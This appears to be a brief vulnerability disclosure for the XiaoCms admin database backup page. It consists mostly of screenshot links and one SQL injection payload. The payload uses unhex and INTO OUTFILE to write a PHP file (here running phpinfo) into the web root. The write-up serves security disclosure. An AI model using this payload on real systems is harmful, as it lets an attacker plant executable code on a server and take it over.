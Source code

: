Vulnerabilities in database backup page

![image-20190103165306686](assets/image-20190103165306686-6505586.png)

This function is located `XiaoCms\admin\controller\database.php`

![image-20190103170720605](assets/image-20190103170720605-6506440.png)

capture the packet，execute SQL command

![image-20190103170640434](assets/image-20190103170640434-6506400.png)

```mysql
`; select unhex('3C3F70687020706870696E666F28293B') INTO OUTFILE 'C:/phpStudy/PHPTutorial/WWW/xiaocms/she.php'; `;
```

![image-20190103170900567](assets/image-20190103170900567-6506540.png)

![image-20190103171146519](assets/image-20190103171146519-6506706.png)

![image-20190103171213687](assets/image-20190103171213687-6506733.png)

![image-20190103171234340](assets/image-20190103171234340-6506754.png)